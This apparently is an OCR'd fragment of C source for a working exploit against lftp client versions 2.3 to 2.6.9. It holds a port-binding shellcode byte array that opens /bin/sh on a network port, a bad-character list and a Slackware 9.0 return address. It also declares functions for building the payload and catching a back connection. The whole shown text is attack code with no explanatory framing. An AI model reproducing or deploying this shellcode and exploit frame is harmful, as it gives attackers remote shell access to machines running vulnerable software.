 
    /* Edited bighawk 78 bytes portbinding shellcode */
    /* size: 80 bytes */
    /* Does not contain any white character i.e \r,\t,\v,\f,\n,\20 */

    char shellcode[] =
    "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0"
    "\x66\x52\x50\xcd\x80\x43\x66\x53\x89\xe1\x6a\x10"
    "\x51\x50\x89\xe1\x52\x50\xb0\x66\xcd\x80\x89\xe1"
    "\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x89"
    "\xd9\x93\xb0\x3f\xcd\x80\x49\x79\xf9\x52\x68\x6e"
    "\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53"
    "\x89\xe1\xb0\x28\x2c\x1d\xcd\x80";

    char badc0ded[] =
    {0x20,0x09,0x0a,0x0b,0x0c,0x0d,0x00};

    char *lftp_versions[] =
    {
      "lftp/2.3",
      "lftp/2.4.9",
      "lftp/2.5.2",
      "lftp/2.6.0",
      "lftp/2.6.3",
      "lftp/2.6.4",
      "lftp/2.6.5",
      "lftp/2.6.6",
      "lftp/2.6.7",
      "lftp/2.6.8",
      "lftp/2.6.9",

    };

    unsigned long ret_addr = D_RET;

    int back_connection(long host);
    int check_shellcode(char *host);
    void check_version();
    char * build(char *host);
    int create_file(char *path);
    void wait_connection(int port);
    long resolve_host(u_char *host_name);
    void die(char *argv);

    struct os_ret_addr
    {
      int num;
      char *plat;
      long ret;
    };

    struct os_ret_addr exp_os[]=
    {
      {0,"slack 9.0",0xbffff770},
      {0,NULL,0}
    };
